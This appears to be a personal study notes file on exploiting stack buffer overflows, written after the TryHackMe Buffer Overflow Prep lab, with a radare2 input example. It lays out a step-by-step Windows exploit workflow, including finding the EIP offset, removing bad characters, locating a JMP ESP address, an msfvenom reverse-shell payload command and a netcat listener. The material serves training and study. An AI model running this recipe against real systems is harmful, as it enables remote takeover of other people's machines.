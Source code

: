 # Buffer Overflow

## Using a File As Input In Radare 2
```bash
echo -e "12345678901234\x67\x05\x40" > over.txt
r2 -A -d ./executable
dor stdin=over.txt
doo
```

## Windows Application

Those are my notes taken after doing the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) room on TryHackMe.

There is also a [post explaining the same thing](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst).

### Install Needed Tools
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
* [Mona Plugin](https://github.com/corelan/mona)

### Exploit
* Run the application in Immunity
    * Between each tests, you will need to 
        * Restart the session (Ctrl-F2)
        * Lauch the application (F9)
* Configure Mona
    * `!mona config -set workingfolder c:\mona\%p`
* Try fuzzing the application with the [fuzzing.py](BufferOverflow/Windows/fuzzing.py) script
    * Note how many bytes crashes the application
* Find EIP offset with the [exploit.py](BufferOverflow/Windows/exploit.py) script
    * Use metasploit to generate a pattern 400 bytes longer than the strings that crashed the application
        * `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <BytesToCrashPlus400>`
    * Copy the pattern and use it as payload in the exploit script
    * Run the script
    * Find the offset in Immunity 
        * `!mona findmsp -distance <BytesToCrashPlus400>`
        * This will print a few lines, look for : `EIP contains normal pattern : ... (offset XXXX)`
        * Note the offset
    * Modify the exploit script
        * Set the offset to the one we found
        * Set the return address to BBBB
* Find Bad Charaters
    * Generate a list of possible bad characters with the [generate.py](BufferOverflow/Windows/generate.py) script
        * Copy the generated string and use it as the payload in exploy.py
    * In Immunity generate a byte array with possible characters
        * `!mona bytearray -b "\x00"`
    * Run exploit.py
    * Find bad character in Immunity
        * Copy the ESP address
        * `!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`
        * Note the first bad character found not in your list
    * Regenate the Mona bytes array without the found character
        * `!mona bytearray -b "\x00\xXX"`
    * Remove the found character from the payload
    * Repeat until Mona compare returns 'Unmodified'
* Find a Jump Point
    * In Immunity run 
        * `!mona jmp -r esp -cpb "<List of bad characters>"`
    * Open the 'Log data' window and pick an address to jump to from the list
    * Convert the address to little endian
    * Modify the return address in exploit.py to the address you found
* Generate the payload
    * `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<List of bad characters>" -f py`
    * Use the generated code for the payload in exploit.py
* Prepend NOPs
    * Add some NOPs in exploit.py
        * `padding = "\x90" * 16`
* Start your netcat listener
    `nc -klvnp 4444`
* Run the exploit script
